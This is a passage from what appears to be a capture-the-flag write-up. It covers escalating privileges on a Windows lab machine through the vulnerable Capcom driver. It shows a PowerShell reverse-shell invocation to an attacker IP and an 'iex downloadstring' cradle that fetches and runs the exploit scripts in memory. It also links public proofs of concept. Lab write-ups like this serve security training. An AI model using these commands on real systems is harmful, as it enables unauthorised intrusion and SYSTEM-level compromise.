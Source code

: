 Basic enumeration of this user indicates that `decoder` has no special privileges over the machine. I couldn't run lots of scripts because AppLocker or Defender was present on the machine:

```
PS C:\Windows\Tasks> .\winpeas.exe
PS C:\Windows\Tasks> Invoke-PowerShellTcp : Program 'winpeas.exe' failed to run: Operation did not 
complete successfully because the file contains a virus or potentially 
unwanted softwareAt line:1 char:1
+ .\winpeas.exe
+ ~~~~~~~~~~~~~.
At line:128 char:1
+ Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.11 -Port 443
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
   tion
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
   n,Invoke-PowerShellTcp
```

Based on the theme of the machine, I enumerated exploits related to Street Fighter and surprisingly, found an ExploitDB link:

{% embed url="https://www.exploit-db.com/exploits/40451" %}

Capcom driver is well-known for granting SYSTEM shells, so let's take a look at that. There are loads of PoCs available. I used this one:

{% embed url="https://github.com/FuzzySecurity/Capcom-Rootkit" %}

The above was the best because it was based on Powershell instead of `.exe` files, which I could not seem to execute anyway. I struggled a bit here in uploading them onto the machine, but eventually resorted to using 0xdf's writeup to combine all of them (which is really smart):

```bash
find . -name "*.ps1" -exec cat {} \; -exec echo \; > capcom-all
```

Then, we can use the Powershell download cradle method to import it in memory:

```powershell
iex(new-object net.webclient).downloadstring('http://10.10.14.11:443/capcom-all')
```

Then, run the exploit:

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>
